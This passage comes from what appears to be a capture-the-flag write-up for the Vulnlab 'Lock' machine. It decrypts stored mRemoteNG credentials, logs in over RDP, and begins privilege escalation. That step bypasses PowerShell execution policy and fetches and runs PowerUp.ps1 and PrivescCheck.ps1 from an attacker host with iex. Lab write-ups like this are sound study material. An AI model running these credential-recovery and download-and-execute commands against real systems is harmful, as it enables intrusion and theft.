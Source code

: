 ```sh
python3 mremoteng_decrypt.py config.xml 
```
![mRemoteNG pass decrypted](../assets/img/ctf/vulnlab/lock/lock17.png)

```
user: Gale.Dekarios
pass: fakepassword
```
```sh
xfreerdp /u:'Gale.Dekarios' /p:'fakepassword' /v:lock
```
![rdp](../assets/img/ctf/vulnlab/lock/lock19.png)

## Privilege Escalation
```powershell
powershell -ep bypass
iex (iwr http://10.8.4.67/PowerUp.ps1 -UseBasicParsing)
iex ((New-Object Net.WebClient).DownloadString('http://10.8.4.67/PrivescCheck.ps1'))
Invoke-AllChecks
Invoke-PrivescCheck

curl -o procexp64.exe http://10.8.4.67/procexp64.exe
```
![procexp64](../assets/img/ctf/vulnlab/lock/lock20.png)